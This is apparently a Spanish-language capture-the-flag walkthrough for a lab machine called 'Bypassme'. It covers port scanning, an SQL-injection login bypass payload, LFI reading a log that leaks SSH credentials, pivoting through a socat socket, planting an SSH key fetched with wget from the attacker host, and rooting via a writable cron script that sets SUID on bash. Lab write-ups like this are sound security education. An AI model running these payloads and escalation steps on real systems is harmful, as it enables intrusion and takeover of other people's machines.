

# Readme Bypassme
## Paso 1: Verificar la conexión con la maquina 
* Despues de iniciar la maquina, realizaremos el siguiente comando para confirmar si hay conexión con la maquina:

```bash
ping -c 2 172.17.0.2
```


Hay conexión.

## Paso 2: Escaneo de puertos
* Utilizaremos **nmpa** para saber que puertos estan abiertos, con el siguiente comando:

```bash
sudo nmap -p- -sCVS --min-rate=10000 -vvv -Pn -n -O 172.17.0.2
```
Explicación de lo que hace el comando:
* **sudo** : Ejecuta **nmap** con los privilegios de superusuario, el cual requieren de estos permisos para ejecutar más aciones.

* **nmap** : La herramienta para realizar el escaneo de los puertos de la maquina.

* **--p--** : Escanea todos los puertos **TCP** del 1 al 65535 (**TCP** es un protocolo principal de la capa de transporte en el modelo **TCP/IP**).

* **-sCVS** : Realiza 3 acciones: 
    * 1. **-sC** : El cual ejecuta los scripts **NSE** por defecto. ()
    * 2. **-sV** : Intenta identificar servicios y versiones.
    * 3. **-sS** : scan “half-open”, muy común y rápido ()

* **--min-rate=10000** : Fuerza a namp a enviar 10.000 paquetes por segundo para realizar un escaneo rapido.

* **-vvv** : Mostrara un **verbose** más alto (Mostrara salida de pantalla, progreso y detalles).

* **-Pn** : No realices **host discovery** (no enviara ping para verificar si el host está vivo (**nmap** asume que el host esta activo)).

* **-n** : No resuelvas nombres **DNS**, evitara hacer consultas a **DNS** para ahorrar tiempo y acelerar el escaneo y que no salgan nombres.

* **-O** : Intenta detección de sistema operativo (**OS fingerprinting**) 

* **172.17.0.2** : Esta es la ip objetivo 

Ya colocando el comando en la terminal:


Al realizar el comando encontraremos el siguiente apartado:


El escaneo nos da como resultados dos puertos abiertos: el **22** (SSH) y el **80** (HTTP).

Esto nos dice que podemos entrar a una pagina web por el puerto **80**, entonces colocaremos la IP de la maquina en el navegador (Osea la 172.17.0.2).


Observamos que nos abre una pagina de apache2 debian.

Pero si nos detallamos en el escaneo podemos observar la siguiente linea que dice: 


Entonces a la IP que ya colocamos le agregamos **/login.php** y nos abrira lo siguiente:


Vemos un Login, por lo que probaremos varias inyecciones SQL para intentar evadir el login. Utilizando el siguiente diccionario de Github https://github.com/austinsonger/SQL-Injection-Authentication-Bypass-Cheat-Sheet

Si probamos a inyectar lo siguiente: 

```
admin
```

``` 
test' or '1'='1' -- -
```


Pasa lo siguiente:


## Paso 3: Uso del Dirb

Pudimos acceder. Ahora en el cuadro podemos observar que dice que los logs están públicos y habla también de una barra de navegación. Entonces utilizaremos **Dirb** para enumerar rutas ocultas utilizando el siguiente comando:

```zsh
dirb http://172.17.0.2/
```


Obtenemos lo siguiente:


Observamos que hay una ruta **/logs** que esta protegida (**403**), las cuales contienen archivos de registro, credenciales en texto plano o tokens.

Y si nos fijamos en la ruta podemos ver que utiliza un parametro **page** :


Esto quiere decir que puede que tenga una **vulnerabilidad LFI (Local File Inclusion)**, lo cual podría ser posible leer esos logs pasando la ruta adecuada al parámetro.

Por eso intentaremos enumerar los archivos que hay dentro para luego intentar leer alguno vía **LFI**.
## Paso 4: Uso del wfuzz:

Así que vamos a usar **Wfuzz** para enumerar un posible archivo en la carpeta logs explotando un **LFI** ejecutando lo siguiente:

```bash 
wfuzz -c -w /usr/share/wordlists/dirb/common.txt -b "PHPSESSID=u78js0ml793ps6fg5racc8a98k" --hl 2 http://172.17.0.2/index.php?page=/logs/FUZZ.txt
```

Explicación de lo que hace el comando:

* **wfuzz** : Herramienta **fuzzing** para aplicaciones web. 

(Fuzzing es una técnica de prueba automatizada que consiste en enviar muchas entradas (malformadas, aleatorias o estructuradas) a una aplicación para encontrar fallos, vulnerabilidades o comportamientos inesperados.)

* **-c** : Configura la terminal para que tenga más colores para que sea más legible.

* **-w /usr/share/wordlists/dirb/common.txt** : Indica la wordlist que WFuzz va a usar. Cada línea de ese fichero será probada donde está el marcador FUZZ.

* **-b "PHPSESSID=u78js0ml793ps6fg5racc8a98k"** : Envía una **cookie HTTP** con cada petición.

* **--hl 2** : Filtro para ocultar respuestas que tengan dos líneas, para centrarse en encontrar y ver mejores respuestas.

* **http://172.17.0.2/index.php?page=/logs/FUZZ.txt** : Esto es para explotar una posible **FLI** o enumerar nombres de archivos que existan en **/logs**, con el **FUZZ** el cual va hacer de **placeholder** y va a ir reemplazando con cada palabra de la wordlist (explicado anteriormente).

Ya colocando el comando en la terminal:


Obtendremos el siguiente resultado:


No nos muestra nada, por lo cual intentaremos por otros lados.

## Paso 5: Herramienta Gobuster

Con la Herramienta **Gobuster**, realizaremos un fuzzing de directorio para obtener los directorios webs que no estan a la vista dentro del dominio. El cual nos dara un resultado más completo que solo utilizar la herramienta **Dirb**.

Utilizamos el siguiente comando:

```bash 
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x html,php,txt,py,sh,log
```

Ponemos el comando:


Y esto nos dara el siguiente resultado:


Todas las rutas encontradas a excepcion de **/logs**, estan redirigidas a login.php. La ruta /logs, no es encontrada, por lo cual, debe de ser una carpeta no indexada correctamente.

## Paso 6: Revisión del Codigo Fuente

Para entrar al codigo fuente de una pagina utilizaremos el atajo **Crtl+u** :



Observamos que al Inicio hay un mensaje que dice que deben de asegurar el fichero **logs.txt** antes de la implementacion.

Ahora probaremos cambiar la ruta en vez de welcome por **/logs/**, para ver que nos retorna: 


Nos dice que no tenemos permisos o que el archivo no fue encontrado.

Podemos deducir que el **/logs** es el directorio y una carpeta puede ser en este caso **/logs.txt**.

Entonces pondremos la siguiente ruta en el navegador: 

``` 
http://172.17.0.2/index.php?page=logs/logs.txt
```

Y encontraremos lo siguiente:


El contenido de **/logs.txt**, se evidencia varios intentos de sesion por el servicio **SSH** (el puerto 22), donde inciaron exitosamente con las credenciales: **albert:NGxiM3J0MTIz** :


## Paso 7: Conexión por SSH

Aprovechando que ya tenemos unas credenciales, nos conectaremos por el servicio **SSH** : 


Entramos con el usuario y colocamos la contraseña y ya estamos **adentro!!**

## Paso 8: Escalada de Privilegios

Lo que buscaremos es pasar de un usuario normal a ser **root** o **superusuario**. Para ello seguiremos los siguientes pasos: 

* 1. Verificamos que binarios se pueden ejecutar con permisos de otros usuarios:

Ponemos el Siguiente comando:

``` 
sudo -l
```

Y obtenemos el siguiente resultado:


Esto nos indica que el comando **sudo** no esta instalado o no esta en la ruta, lo cual no se puede utilizar.

* 2. Verificamos los binarios que posean el **SUID**

Utilizamos el siguiente comando:

``` 
find / -perm -4000 2>/dev/null
```

El resultado es el siguiente:


Aqui nos muestran todos los binarios por defecto del sistema.

* 3. Listamos los procesos en ejecución

Utilizamos el siguiente comando:

``` 
ps aux
```
Y este es el resultado:


Encontramos que el usuario **conx** ejecuta el binario **socat** para recibir una conexion, retornando una **bash**.

## Descarga pspy64
Vamos a visualizar los procesos del sistema con un binario llamado pspy64 el cual nos descargaremos desde la maquina host y nos lo pasaremos con un servidor de python3 y con la herramienta wget nos lo descargamos en la maquina victima. 

Escribimos en el navegador pspy64 y entramos en el primera pagina que veamos y dentro le damos a descargar al de 64:


link de descarga https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 


Ponemos **ls** y nos iremos a la carpeta **tmp**


y dentro colocamos **wget** y pegamos el link de descarga


ya descargado, comprobamos que si esta con **ls** y despues le damos permisos con **chmod +x**


y lo corremos:


Vemos que esta resaltado de naranja la siguiente linea: 

``` 
CMD: UID=1002  PID=1164   | socat UNIX-LISTEN:/home/conx/.cache/.sock,fork EXEC:/bin/bash 
```

Por lo que vemos se esta realizando un socat ejecutando la bash como el usuario conx, por lo que podremos realizar lo siguiente.

Con este comando entramos a **conx**


``` 
socat - UNIX-CONNECT:/home/conx/.cache/.sock
```


Despues abrimos otra terminal y entramos a **./ssh** :


colocamos primero:

``` 
cd ~/.ssh
```

despues:

``` 
ssh-keygen
```

despues un **ls -la**

ya despues:

``` 
python3 -m http.server 444
```

y nos dirigimos nuevamente a la otra terminal no sin antes copiar lo siguiente: **id_ed25519.pub**

ya en la otra terminal:

Creamos una carpeta llamada **~/.ssh**
 
Entramos en ella con **cd ~/.ssh**

y ponemos el siguiente comando dentro de ella:

``` 
wget http://172.17.0.1:444/id_ed25519.pub
```
pegando al final lo que copiamos de la otra terminal.  **id_ed25519.pub**

Ya en la otra terminal nos debera de mostrar un mensaje como este:


Despues reazlizarremos el siguiente comando **mv id_ed25519.pub authorized_keys**

Le damos permisos 600: **chmod 600 authorized_keys**

Despues entramos a **cd ..**

Y le damos permisos 700 a /.ssh: **chmod 700 ~/.ssh**


Nos movemos a la otra terminal termianmos el proceso con **Ctrl+c** y entramos mediante via **ssh** con el usuario **conx**


Ya dentro nos moveremos a la siguiente carpeta: **cd /etc/cron.d**

Dentro ponemos **ls -la**

Vemos la siguiente carpeta: **-rw-r--r-- 1 root root   43 May 21 01:36 backup-cron**

A la cual le lanzaremos un cat: **cat backup-cron**

Nos mostrara lo siguiente: **root bash /var/backups/backup.sh**

Ponemos ahora: **ls -la /bin/bash**

Y nos mostrara esto:

``` 
**-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash**
```

Colocamos el siguiente comando:

``` 
echo 'chmod +s /bin/bash' >> /var/backups/backup.sh
```

Ya despues esperamos algo de 1 minuto y volvemos a lanzar **ls -la /bin/bash**

Se nos debera mostrar sombreado de rojo

Y ya para terminar lanzamos este comando **/bin/bash -p**

Y despues un **whoami** y nos debera mostrar que somos **root**


Y ya con esto finalizamos.
